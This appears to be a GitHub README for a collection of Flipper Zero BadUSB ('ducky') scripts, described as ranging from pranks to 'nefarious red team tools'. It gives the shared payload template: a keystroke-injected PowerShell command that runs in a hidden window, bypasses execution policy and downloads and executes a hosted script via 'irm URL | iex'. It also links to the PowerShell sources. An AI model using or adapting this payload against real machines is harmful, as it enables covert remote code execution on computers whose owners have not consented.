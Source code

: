 # Downloadable-Ducky-Scripts-For-FlipperZero

**These scripts download and run from this repo -**

https://github.com/beigeworm/assets/tree/main/Scripts

they all use this command > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

#  If you like my work please leave a star. ⭐


